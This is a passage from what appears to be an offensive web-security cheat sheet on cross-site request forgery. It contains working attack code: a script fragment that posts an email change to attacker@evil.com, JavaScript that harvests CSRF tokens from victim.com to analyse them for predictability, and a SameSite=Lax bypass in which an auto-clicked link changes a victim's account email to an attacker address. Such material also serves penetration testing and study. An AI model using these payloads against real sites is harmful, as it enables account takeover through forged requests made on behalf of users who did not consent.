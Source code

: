             body: JSON.stringify({email: 'attacker@evil.com'})
          });
        });
      </script>
      ```
    - Impact:
      - Direct access to authenticated API endpoints
      - Ability to read sensitive data and extract tokens
      - Bypassing traditional CSRF protections via authorized script

- **Advanced CSRF protection bypass techniques**
  - **Token analysis and prediction**
    - Statistical analysis of token patterns:
      - Collect multiple tokens in sequence
      - Analyze format, length, character distribution
      - Identify weak pseudo-random number generators
    - Time-based analysis:
      - Generate tokens at precise intervals
      - Look for time-dependent patterns
      - Identify tokens based on timestamps
    - Cryptographic weaknesses:
      - Test for static components within tokens
      - Analyze for hash collisions
      - Check for insecure encodings (Base64, hex)
    - Implementation:
      ```javascript
      // Token harvesting and analysis
      async function analyzeTokens() {
        let tokens = [];
        // Collect 100 tokens
        for(let i = 0; i < 100; i++) {
          let response = await fetch('https://victim.com/form');
          let text = await response.text();
          let match = text.match(/name="csrf_token" value="([^"]+)"/);
          if(match) tokens.push(match[1]);
        }
        
        // Analyze patterns
        let tokenLengths = new Set(tokens.map(t => t.length));
        let charSets = new Set(tokens.map(t => new Set(t.split(''))));
        console.log("Token length consistency:", tokenLengths.size === 1);
        console.log("Character set consistency:", charSets.size === 1);
        
        // Test for incremental patterns
        for(let i = 1; i < tokens.length; i++) {
          // Compare token components for incremental patterns
          // ...analysis code...
        }
      }
      ```

  - **SameSite cookie bypass techniques**
    - Exploiting SameSite=Lax exceptions:
      - Top-level GET navigations are allowed
      - Implementation:
        ```html
        <a href="https://victim.com/account/settings?new_email=attacker@evil.com" target="_blank" id="exploit-link">Click here</a>
        <script>
          // Simulate user interaction if needed
          document.getElementById("exploit-link").click();
        </script>
        ```
    - Subdomain/same-site attacks:
      - Target cookies scoped to parent domain